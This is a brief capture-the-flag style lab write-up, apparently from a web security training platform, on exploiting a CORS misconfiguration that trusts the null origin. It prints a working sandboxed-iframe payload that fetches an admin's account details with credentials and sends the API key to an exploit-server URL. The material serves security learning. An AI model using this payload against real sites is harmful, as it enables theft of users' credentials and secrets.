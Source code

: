 	![](../../../assets/screenshots/cors/Pasted%20image%2020250801160842.png)
	
	However, sending `null` gets reflected in the response ACAO header.
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801160956.png)
	
	Since the null origin is reflected, we can use the following payload to snag the admin's API key.
	
	```
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
	  var req = new XMLHttpRequest();
	  req.onload = reqListener;
	  req.open('get','https://0adb00af04759e1980f703df00da0006.web-security-academy.net/accountDetails',true);
	  req.withCredentials = true;
	  req.send();
	
	  function reqListener() {
	    location='https://exploit-0a310064045b9e858037027701af008a.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
	   };
	</script>"></iframe> 
	```
	
	Nice. We got the request from the admin containing the API key.
	
